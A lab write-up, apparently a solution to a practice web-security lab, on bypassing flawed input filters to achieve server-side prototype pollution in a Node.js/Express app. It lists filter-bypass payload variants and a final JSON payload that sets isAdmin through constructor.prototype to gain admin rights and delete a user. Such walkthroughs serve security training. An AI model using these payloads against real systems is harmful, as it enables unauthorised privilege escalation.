





# Bypassing flawed input filters for server-side prototype pollution
# Objective
This lab is built on Node.js and the Express framework. It is vulnerable to server-side prototype pollution because it unsafely merges user-controllable input into a server-side JavaScript object.

To solve the lab:

1. Find a prototype pollution source that you can use to add arbitrary properties to the global `Object.prototype`.
2. Identify a gadget property that you can use to escalate your privileges.
3. Access the admin panel and delete the user `carlos`.

You can log in to your own account with the following credentials: `wiener:peter`


# Solution
## Analysis
Endpoint `/my-account/change-address` allows given user to specify his billing and delivery address.

||
|:--:| 
| *Change billing and delivery address information request* |

## Exploitation
Input sanitization can be bypassed by using `constructor.prototype.foo=barr` structure. Attacker can gain administrator privileges by polluting (modifying) `isAdmin` value.

Alternative payloads possibilities:
```
__proto__.foo.bar
__pro__proto__to__.foo=bar
constructor.prototype.foo=bar
constconstructorructor.protoprototypetype.foo=bar
```
||
|:--:| 
| *Standard request and raw response* |
||
| *Prototype pollution detection - JSON in response is indented 10 spaces* |
||
| *Prototype pollution - Modification of isAdmin value* |
||
| *Deletion of user carlos* |

Final payload:
```json
{
  "address_line_1": "Wiener HQ",
  "address_line_2": "One Wiener Way",
  "city": "Wienerville",
  "postcode": "BU1 1RP",
  "country": "UK",
  "sessionId": "TXGVTWU7oKIFBP0OrnunBfsmYSug1Xca",
  "constructor": {
    "prototype": {
      "isAdmin": true
    }
  }
}
```
